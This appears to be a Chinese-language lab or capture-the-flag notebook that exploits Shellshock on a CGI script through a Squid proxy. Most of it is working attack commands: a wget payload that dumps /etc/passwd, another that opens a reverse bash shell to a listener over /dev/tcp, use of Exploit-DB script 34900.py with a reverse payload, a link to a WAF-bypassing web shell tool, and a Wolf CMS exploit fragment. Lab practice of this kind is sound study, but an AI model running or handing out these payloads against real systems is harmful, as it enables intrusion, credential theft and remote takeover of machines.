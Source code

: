 wget -qO- -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" -e use_proxy=yes -e http_proxy=10.211.55.39:3128 http://127.0.0.1/cgi-bin/status

-qO-   ---将信息文本输出
-U  --user-agent=代理
-e   ----运行命令，execute=命令

nc -vlp 9998
wget -qO- -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/bash -i >& /dev/tcp/10.211.55.19/9998 0>&1" -e use_proxy=yes -e http_proxy=10.211.55.39:3128 http://127.0.0.1/cgi-bin/status
--------------------
4）kali自带脚本shellshock
searchsploit Shellshock
locate linux/remote/34900.py
cp /usr/share/exploitdb/exploits/linux/remote/34900.py .

python 34900.py payload=reverse rhost=10.211.55.39 lhost=10.211.55.19 lport=555 proxy=10.211.55.39:3128 pages=/cgi-bin/status/

--------------------

5）绕过waf：
https://github.com/dotcppfile/DAws

--------------------
6）代码审计
searchsploit Wolf CMS
php/webapps/36818.php

cat /usr/share/exploitdb/exploits/php/webapps/36818.php

---
$login = "login[username]={$user}&login[password]={$pass}&login[redirect]=/wolfcms/?/admin/";
$packet  = "POST {$path}/?/admin/login/login HTTP/1.1\r\n";
$packet .= "Host: {$host}\r\n";
---

find / -name cgi-bin 2>/dev/null   ---查找cgi-bin
cat /usr/lib/cgi-bin/status
----
#!/bin/bash

echo "Content-Type: application/json";
echo ""
echo '{ "uptime": "'`uptime`'", "kernel": "'`uname -a`'"} '
----
可看到uptime是时间输出，kernel和uanme -a 输出版本信息，在页面上，允许CGI在Content-Type头部！
















